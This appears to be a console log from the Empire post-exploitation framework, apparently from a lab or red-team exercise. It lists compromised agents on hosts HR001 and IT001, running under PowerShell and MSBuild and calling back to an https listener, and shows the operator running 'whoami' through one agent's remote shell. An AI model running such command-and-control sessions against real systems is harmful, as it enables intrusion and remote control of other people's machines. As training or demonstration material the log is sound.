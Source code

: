 ```
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 H3DKB8SA ps 172.18.39.106   HR001             SHIRE\nmartha           powershell         5172   5/0.0    2019-05-18 21:39:49  https           
 TKV35P8X ps 172.18.39.106   HR001             *SHIRE\nmartha          powershell         5452   5/0.0    2019-05-18 21:39:49  https           
 EMDBFPSY ps 172.18.39.106   HR001             SHIRE\nmartha           notepad            7924   5/0.0    2019-05-18 21:39:47  https           

 V6W3TH8Y ps 172.18.39.106   HR001             SHIRE\pgustavo          powershell         5204   5/0.0    2019-05-18 21:39:50  https           
 38APWSR1 ps 172.18.39.105   IT001             *SHIRE\pgustavo         MSBuild            5656   5/0.0    2019-05-18 21:39:49  https           

(Empire: agents) >
(Empire: agents) > interact 38APWSR1
(Empire: 38APWSR1) > shell whoami
[*] Tasked 38APWSR1 to run TASK_SHELL
[*] Agent 38APWSR1 tasked with task ID 1
(Empire: 38APWSR1) > shire\pgustavo
..Command execution completed.

(Empire: 38APWSR1) >
```